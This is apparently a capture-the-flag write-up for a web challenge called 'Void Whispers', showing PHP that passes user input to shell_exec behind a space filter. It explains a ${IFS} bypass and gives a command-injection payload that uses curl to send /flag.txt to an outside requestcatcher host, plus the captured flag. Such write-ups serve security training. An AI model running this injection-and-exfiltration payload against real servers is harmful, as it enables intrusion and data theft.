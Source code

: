 # Web - Void Whispers

## Description

In the dead of night, an eerie silence envelops the town, broken only by the faintest of echoes—whispers in the void. A phantom mailer is sending out silent commands, unseen and unheard, manipulating systems from the shadows. The townsfolk remain oblivious to the invisible puppeteer pulling their strings. Legends hint that sending the right silent message back could reveal hidden secrets. Can you tap into the darkness, craft the perfect unseen command, and shut down the malevolent force before it plunges the world into chaos?

## Homepage

<figure><img src="../../../../.gitbook/assets/image (99).png" alt=""><figcaption></figcaption></figure>

## Source code review

<figure><img src="../../../../.gitbook/assets/image (101).png" alt=""><figcaption></figcaption></figure>

This is the function that our user input reaches,&#x20;

After a fraction of second, we can find the vulnerability, backend has `shell_exec`to execute `which` command.

```php
if (preg_match('/\s/', $sendMailPath)) {
  return $router->jsonify(['message' => 'Sendmail path should not contain spaces!', 'status' => 'danger'], 400);
}

$whichOutput = shell_exec("which $sendMailPath");
if (empty($whichOutput)) {
  return $router->jsonify(['message' => 'Binary does not exist!', 'status' => 'danger'], 400);
}
```

So it checks if our user input has any ' ' (space) included, if yes, it returns 'Sendmail path should not contain spaces!'

There's a trick to bypass spaces in linux (which works in bash only)

{% embed url="https://book.hacktricks.xyz/linux-hardening/bypass-bash-restrictions#bypass-forbidden-spaces" %}

We can use `${IFS}` instead of a   space.

## Attack

<figure><img src="../../../../.gitbook/assets/image (105).png" alt=""><figcaption></figcaption></figure>

### Payload

```bash
/usr/bin/curl;curl${IFS}-X${IFS}POST${IFS}heapbytes.requestcatcher.com/test${IFS}-d${IFS}"$(cat${IFS}/flag.txt)"

# --- breakdown
# curl${IFS}-X${IFS}POST${IFS}heapbytes.requestcatcher.com/test
##-> this will send post data to our requestcatcher
## Decodes to : curl heapbytes.requestcatcher.com/test

# ---
# ${IFS}-d${IFS}"$(cat${IFS}/flag.txt)"
## -> this will send post body data, it will send flag.txt 
## Decodes to : -d "$(cat /flag.txt)"
```

<figure><img src="../../../../.gitbook/assets/image (106).png" alt=""><figcaption></figcaption></figure>

```bash
HTB{c0mm4nd_1nj3ct10n_4r3_3457_70_f1nD!!_098912b889858de2519e1b18abe0eced}
```

\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_heapbytes' still pwning
